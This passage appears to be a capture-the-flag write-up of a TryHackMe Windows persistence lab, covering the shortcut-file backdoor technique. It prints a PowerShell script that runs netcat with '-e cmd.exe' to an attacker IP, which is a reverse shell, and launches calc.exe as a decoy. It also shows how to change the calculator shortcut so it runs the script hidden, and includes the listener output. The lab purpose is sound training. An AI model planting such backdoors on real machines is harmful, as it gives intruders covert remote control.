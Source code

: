 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![]()

![]()

3. `PowerShell`
```PowerShell
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\System32\calc.exe`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
5. Change the calculator's icon and shortcut properties to 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1'

![]()

![]()

6. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
7. Click on the calculator

![]()

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
8. `C:\flags\flag5.exe`
```Bash
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```

# Hijacking File Associations
1. Started this room's machine
2. 
